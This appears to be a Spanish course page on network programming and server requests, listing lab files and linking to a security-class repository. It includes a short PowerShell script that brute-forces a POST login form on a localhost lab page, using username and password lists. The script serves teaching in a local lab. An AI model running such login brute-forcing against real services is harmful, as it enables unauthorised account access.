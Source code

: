# Programación de comunicaciones en red:
 -	Comunicación entre aplicaciones.
 -	Roles cliente y servidor.
 -	Elementos de programación de aplicaciones en red. Librerías.
 -	Sockets.
 -	Creación de sockets.
 -	Enlazado y establecimiento de conexiones.
 -	Utilización de sockets para la transmisión y recepción de información.
 -	Programación de aplicaciones cliente y servidor.
 -	Utilización de hilos en la programación de aplicaciones en red.

## Peticiones a servidores (GET, POST, fuerza bruta)

### Introducción
```
GetPost/postindex.php
GetPost/getindex.php
GetPost/examplepost.php
GetPost/exampleget.php
JavaScript/jh.html
JavaScript/sjh.html
JavaScript/ssjh.html
UserAgent/useragentindex.php
FuerzaBruta/index.php
FuerzaBruta/postraw.php
```

### Códigos sobre fuerza bruta
* https://github.com/jesusninoc/Seguridad/tree/master/GetPost
* https://github.com/jesusninoc/Seguridad/tree/master/FuerzaBruta
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2019-02-21.md
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2019-02-25.md
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-01-11.md

### Realizar fuerza bruta (método POST) desde PowerShell
```PowerShell
foreach($usuario in gc .\users.txt)
{
    foreach($password in gc .\passwords.txt)
    {
        $postParams = @{'username'=$usuario;'password'=$password}
        (Invoke-WebRequest -Uri "http://localhost/seguridad/FuerzaBruta/postraw.php" -Method POST -Body $postParams).content + " " + $usuario + " " + $password
    }
}
```

## Entender variables en GET y POST
